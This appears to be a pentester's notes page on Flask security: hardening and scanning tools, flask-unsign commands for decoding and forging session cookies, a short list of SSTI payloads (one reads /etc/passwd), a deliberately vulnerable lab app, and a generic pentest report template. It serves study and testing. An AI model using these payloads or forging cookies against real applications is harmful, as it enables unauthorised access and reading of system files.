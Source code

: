 
##
#
https://medium.com/swlh/hacking-flask-applications-939eae4bffed
#
##

```
Web Framework Hardening
Secure.py - secure.py 🔒 is a lightweight package that adds optional security headers and cookie attributes for Python web frameworks.
Flask-HTTPAuth - Simple extension that provides Basic, Digest and Token HTTP authentication for Flask routes.
Flask Talisman - Talisman is a small Flask extension that handles setting HTTP headers that can help protect against a few common web application security issues.
Django Session CSRF - CSRF protection for Django without cookies.
Multi tools
hawkeye - Multi purpose security/vulnerability/risk scanning tool supporting Ruby, Node.js, Python, PHP and Java.
GuardRails - A GitHub App that gives you instant security feedback in your Pull Requests.
Hubble - Hubble is a modular, open-source security compliance framework.
Salus - Multi purpose security scanning tool supporting Ruby, Node, Python and Go.
Static Code Analysis
Bandit - Bandit is a tool designed to find common security issues in Python code.
Pyt - A Static Analysis Tool for Detecting Security Vulnerabilities in Python Web Applications.
Detect Secrets - An enterprise friendly way of detecting and preventing secrets in code.
```

# https://github.com/Paradoxis/Flask-Unsign

```
pip3 install flask-unsign
flask-unsign
flask-unsign --decode --cookie 'eyJsb2dnZWRfaW4iOmZhbHNlfQ.XDuWxQ.E2Pyb6x3w-NODuflHoGnZOEpbH8'
flask-unsign --decode --server 'https://www.example.com/login'
flask-unsign --unsign --cookie < cookie.txt
flask-unsign --sign --cookie "{'logged_in': True}" --secret 'CHANGEME'

# Python Flask SSTI Payloads and tricks

* {{url_for.globals}}
* {{request.environ}}
* {{config}}
* {{url_for.__globals__.__builtins__.open('/etc/passwd').read()}}
* {{self}}
* request|attr('class') == request.class == request[\x5f\x5fclass\x5f\x5f]      
```

Vulnerable-Flask-App
Erlik 2 - Vulnerable-Flask-App

Tested - Kali 2022.1

```
Description
It is a vulnerable Flask Web App. It is a lab environment created for people who want to improve themselves in the field of web penetration testing.

Features
It contains the following vulnerabilities.

-HTML Injection

-XSS

-SSTI

-SQL Injection

-Information Disclosure

-Command Injection

-Brute Force

-Deserialization

-Broken Authentication

-DOS

-File Upload

Installation
git clone https://github.com/anil-yelken/Vulnerable-Flask-App

cd Vulnerable-Flask-App

sudo pip3 install -r requirements.txt

Usage
python3 vulnerable-flask-app.py
```


Contact
https://twitter.com/anilyelken06

https://medium.com/@anilyelken



######
######

Pentest Report for [Application Name]
Summary
In this report, we present the findings of a penetration test conducted on the [Application Name] Flask application. The goal of this test was to identify any vulnerabilities or weaknesses that could be exploited by an attacker.

Methodology
The test was conducted using a combination of automated and manual techniques. Automated tools were used to scan for common vulnerabilities, such as SQL injection and cross-site scripting (XSS). Manual testing was performed to identify more complex vulnerabilities and to verify the results of the automated scans.

Findings
High Severity Issues
Issue 1: SQL Injection
Description
We identified a SQL injection vulnerability in the login functionality of the application. An attacker could exploit this vulnerability to bypass authentication and gain unauthorized access to the application's database.

Recommendation
We recommend that the application's developers implement parameterized queries to prevent SQL injection attacks.

Issue 2: Cross-Site Scripting (XSS)
Description
We identified a reflected XSS vulnerability in the search functionality of the application. An attacker could exploit this vulnerability to execute malicious scripts in the context of a victim's browser.

Recommendation
We recommend that the application's developers sanitize user input and encode output to prevent XSS attacks.

Medium Severity Issues
Issue 1: Session Fixation
Description
We identified a session fixation vulnerability in the application. An attacker could exploit this vulnerability to hijack a victim's session and gain unauthorized access to the application.

Recommendation
We recommend that the application's developers regenerate session IDs upon authentication.

Issue 2: Insecure Communications
Description
We identified that the application is not using HTTPS to encrypt communications. This could allow an attacker to intercept and modify traffic, including authentication credentials.

Recommendation
We recommend that the application's developers implement HTTPS to secure communications.

Low Severity Issues
Issue 1: Information Leakage
Description
We identified that error messages are disclosing sensitive information, including database and server names.

Recommendation
We recommend that the application's developers review error handling and remove any sensitive information from error messages.

Conclusion
Overall, we identified several vulnerabilities in the [Application Name] Flask application, including a SQL injection vulnerability and a reflected XSS vulnerability. We recommend that the application's developers address these vulnerabilities to prevent potential attacks. Additionally, we recommend that the application's developers review and improve the application's security posture to prevent similar vulnerabilities in the future


#############
#############
